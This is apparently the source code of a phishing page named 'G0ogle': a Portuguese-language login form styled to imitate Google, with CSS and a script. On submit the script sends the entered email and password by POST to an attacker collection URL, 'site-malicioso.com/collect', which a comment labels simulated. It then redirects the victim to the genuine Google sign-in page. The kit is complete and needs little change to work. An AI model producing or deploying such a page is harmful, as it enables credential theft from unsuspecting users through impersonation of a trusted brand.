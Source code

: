 # G0ogle
<!DOCTYPE html>
<html lang="pt">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>G0ogle</title>
  <link rel="stylesheet" href="styles.css" />
</head>
<body>
  <div class="login-box">
    <h2>G0ogle</h2>
    <form id="loginForm" action="">
      <input type="email" id="email" placeholder="E-mail" required />
      <input type="password" id="senha" placeholder="Senha" required />
      <button type="submit">Login</button>
    </form>
    <p class="warning">
      <strong>Alerta:</strong> Proteja a sua conta!
    </p>
  </div>
  <script src="script.js"></script>
</body>
</html>
<style 
body {
  font-family: Arial, sans-serif;
  background: #f1f1f1;
  display: flex;
  justify-content: center;
  align-items: center;
  height: 100vh;
}

.login-box {
  background: white;
  padding: 30px;
  border-radius: 8px;
  box-shadow: 0 2px 8px rgba(0,0,0,0.2);
  width: 320px;
  text-align: center;
}

h2 {
  margin-bottom: 20px;
  font-weight: normal;
  font-family: 'Product Sans', Arial, sans-serif;
  color: #4285F4;
}

input {
  width: 100%;
  padding: 12px;
  margin: 10px 0;
  border-radius: 4px;
  border: 1px solid #ccc;
  font-size: 16px;
}

button {
  width: 100%;
  background: #4285F4;
  color: white;
  padding: 12px;
  border: none;
  border-radius: 4px;
  cursor: pointer;
  font-size: 16px;
  font-weight: bold;
}

button:hover {
  background: #357ae8;
}

.warning {
  font-size: 12px;
  color: red;
  margin-top: 15px;
}
</style>
const form = document.getElementById("loginForm");

form.addEventListener("submit", function(event) {
  event.preventDefault();

  const email = document.getElementById("email").value;
  const senha = document.getElementById("senha").value;

  // Envio dos dados para servidor do atacante (simulado)
  fetch("https://site-malicioso.com/collect", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({ email, senha })
  })
  .then(() => {
    window.location.href = "https://accounts.google.com/signin";
  })
  .catch(() => {
    window.location.href = "https://accounts.google.com/signin";
  });
});

